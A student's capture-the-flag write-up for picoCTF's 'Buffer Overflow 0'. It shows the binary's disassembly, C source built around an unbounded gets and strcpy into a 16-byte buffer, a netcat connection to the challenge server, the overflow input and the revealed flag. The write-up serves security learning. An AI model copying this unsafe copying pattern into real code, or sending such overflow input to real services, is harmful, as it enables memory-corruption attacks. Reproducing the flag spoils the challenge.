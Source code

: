# Binary_Exploitation
## Challenge 1: Buffer Overflow 0
I started off by checking the file details of the source and program files as I wasn’t sure of how to begin. 
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % file vuln.c
vuln.c: c program text, ASCII text

Then I viewed the assembly code
```
(lldb) target create vuln
Current executable set to '/Users/mahikakapil/cryptonite_tp2_Mahika/vuln' (i386).
(lldb) disassemble -n main
vuln`main:
vuln[0x1382] <+0>:   endbr32 
vuln[0x1386] <+4>:   leal   0x4(%esp), %ecx
vuln[0x138a] <+8>:   andl   $-0x10, %esp
vuln[0x138d] <+11>:  pushl  -0x4(%ecx)
vuln[0x1390] <+14>:  pushl  %ebp
vuln[0x1391] <+15>:  movl   %esp, %ebp
vuln[0x1393] <+17>:  pushl  %ebx
vuln[0x1394] <+18>:  pushl  %ecx
vuln[0x1395] <+19>:  subl   $0x70, %esp
vuln[0x1398] <+22>:  calll  0x1210                    ; __x86.get_pc_thunk.bx
vuln[0x139d] <+27>:  addl   $0x2c0f, %ebx             ; imm = 0x2C0F 
vuln[0x13a3] <+33>:  subl   $0x8, %esp
vuln[0x13a6] <+36>:  leal   -0x1fa4(%ebx), %eax
vuln[0x13ac] <+42>:  pushl  %eax
vuln[0x13ad] <+43>:  leal   -0x1fa2(%ebx), %eax
vuln[0x13b3] <+49>:  pushl  %eax
vuln[0x13b4] <+50>:  calll  0x11b0                    ;  + 160
vuln[0x13b9] <+55>:  addl   $0x10, %esp
vuln[0x13bc] <+58>:  movl   %eax, -0xc(%ebp)
vuln[0x13bf] <+61>:  cmpl   $0x0, -0xc(%ebp)
vuln[0x13c3] <+65>:  jne    0x13ef                    ; <+109>
vuln[0x13c5] <+67>:  subl   $0x4, %esp
vuln[0x13c8] <+70>:  leal   -0x1f99(%ebx), %eax
vuln[0x13ce] <+76>:  pushl  %eax
vuln[0x13cf] <+77>:  leal   -0x1f84(%ebx), %eax
vuln[0x13d5] <+83>:  pushl  %eax
vuln[0x13d6] <+84>:  leal   -0x1f4f(%ebx), %eax
vuln[0x13dc] <+90>:  pushl  %eax
vuln[0x13dd] <+91>:  calll  0x1110
vuln[0x13e2] <+96>:  addl   $0x10, %esp
vuln[0x13e5] <+99>:  subl   $0xc, %esp
vuln[0x13e8] <+102>: pushl  $0x0
vuln[0x13ea] <+104>: calll  0x1190                    ;  + 128
vuln[0x13ef] <+109>: subl   $0x4, %esp
vuln[0x13f2] <+112>: pushl  -0xc(%ebp)
vuln[0x13f5] <+115>: pushl  $0x40
vuln[0x13f7] <+117>: leal   0x94(%ebx), %eax
vuln[0x13fd] <+123>: pushl  %eax
vuln[0x13fe] <+124>: calll  0x1140                    ;  + 48
vuln[0x1403] <+129>: addl   $0x10, %esp
vuln[0x1406] <+132>: subl   $0x8, %esp
vuln[0x1409] <+135>: leal   -0x2c9f(%ebx), %eax
vuln[0x140f] <+141>: pushl  %eax
vuln[0x1410] <+142>: pushl  $0xb
vuln[0x1412] <+144>: calll  0x1150                    ;  + 64
vuln[0x1417] <+149>: addl   $0x10, %esp
vuln[0x141a] <+152>: calll  0x1160                    ;  + 80
vuln[0x141f] <+157>: movl   %eax, -0x10(%ebp)
vuln[0x1422] <+160>: subl   $0x4, %esp
vuln[0x1425] <+163>: pushl  -0x10(%ebp)
vuln[0x1428] <+166>: pushl  -0x10(%ebp)
vuln[0x142b] <+169>: pushl  -0x10(%ebp)
vuln[0x142e] <+172>: calll  0x11c0                    ;  + 176
vuln[0x1433] <+177>: addl   $0x10, %esp
vuln[0x1436] <+180>: subl   $0xc, %esp
vuln[0x1439] <+183>: leal   -0x1f49(%ebx), %eax
vuln[0x143f] <+189>: pushl  %eax
vuln[0x1440] <+190>: calll  0x1110
vuln[0x1445] <+195>: addl   $0x10, %esp
vuln[0x1448] <+198>: movl   0x48(%ebx), %eax
vuln[0x144e] <+204>: movl   (%eax), %eax
vuln[0x1450] <+206>: subl   $0xc, %esp
vuln[0x1453] <+209>: pushl  %eax
vuln[0x1454] <+210>: calll  0x1120                    ;  + 16
vuln[0x1459] <+215>: addl   $0x10, %esp
vuln[0x145c] <+218>: subl   $0xc, %esp
vuln[0x145f] <+221>: leal   -0x74(%ebp), %eax
vuln[0x1462] <+224>: pushl  %eax
vuln[0x1463] <+225>: calll  0x1130                    ;  + 32
vuln[0x1468] <+230>: addl   $0x10, %esp
vuln[0x146b] <+233>: subl   $0xc, %esp
vuln[0x146e] <+236>: leal   -0x74(%ebp), %eax
vuln[0x1471] <+239>: pushl  %eax
vuln[0x1472] <+240>: calll  0x1353                    ; vuln
vuln[0x1477] <+245>: addl   $0x10, %esp
vuln[0x147a] <+248>: subl   $0xc, %esp
vuln[0x147d] <+251>: leal   -0x1f41(%ebx), %eax
vuln[0x1483] <+257>: pushl  %eax
vuln[0x1484] <+258>: calll  0x1180                    ;  + 112
vuln[0x1489] <+263>: addl   $0x10, %esp
vuln[0x148c] <+266>: movl   $0x0, %eax
vuln[0x1491] <+271>: leal   -0x8(%ebp), %esp
vuln[0x1494] <+274>: popl   %ecx
vuln[0x1495] <+275>: popl   %ebx
vuln[0x1496] <+276>: popl   %ebp
vuln[0x1497] <+277>: leal   -0x4(%ecx), %esp
vuln[0x149a] <+280>: retl   
```
I also tried connecting to the program using the `nc saturn.picoctf.net 53460` which gave a prompt for input and then exited. 

mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % nc saturn.picoctf.net 53460
Input: hello
The program will exit now

Then I decided to analyze the program.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```
Here, the function vuln takes an input in the array buf2 of maximum 16 characters. So I inputted more than 16 random characters and got the flag by overflowing the buffer. The assembly code didn’t really come in use here.
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % nc saturn.picoctf.net 54932
Input: djakcnjIJSDCAJCJNDJLdjnjljcjhdhafhijldadefrefdsfghytrf
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


>Errors and mistakes:
1. I ran the command `lldb vuln.c ` but this resulted in the following error:
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % lldb vuln.c     
(lldb) target create "vuln.c"
error: '/Users/mahikakapil/cryptonite_tp2_Mahika/vuln.c' doesn't contain any 'host' platform architectures: arm64, armv7, armv7f, armv7k, armv7s, armv7m, armv7em, armv6m, armv6, armv5, armv4, arm, thumbv7, thumbv7k, thumbv7s, thumbv7f, thumbv7m, thumbv7em, thumbv6m, thumbv6, thumbv5, thumbv4t, thumb, x86_64, x86_64, arm64, arm64e, arm64, arm64e
``` 
I had to use the source code file instead as it was an ELF file. Later, I realized that this challenge could be done without the assembly code.

FLAG: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
